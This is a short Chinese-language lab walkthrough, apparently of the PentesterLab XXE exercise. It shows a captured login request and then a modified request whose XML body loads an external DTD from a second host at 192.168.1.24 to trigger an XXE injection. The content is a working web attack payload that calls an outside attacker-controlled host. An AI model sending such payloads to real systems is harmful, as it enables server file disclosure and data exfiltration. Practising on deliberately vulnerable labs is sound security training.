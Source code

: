 **演示**

浏览器访问目标 `PentesterLab-xxe`

> http://192.168.1.25/login

打开 `BurpSuite` 拦截，在登录界面提交任意字符

查看截获的请求数据包

```http
POST /login HTTP/1.1
Host: 192.168.1.25
Content-Length: 25
Cache-Control: max-age=0
Origin: http://192.168.1.25
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.25/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=123&password=123
```

将 payload 写入请求数据包，修改 `Content-Type` 类型为 xml

```http
POST /login HTTP/1.1
Host: 192.168.1.25
Content-Length: 25
Cache-Control: max-age=0
Origin: http://192.168.1.25
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.25/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>
<!DOCTYPE e1 SYSTEM "http://192.168.1.24/xxe.dtd">
<hello>&e1;</hello>
```
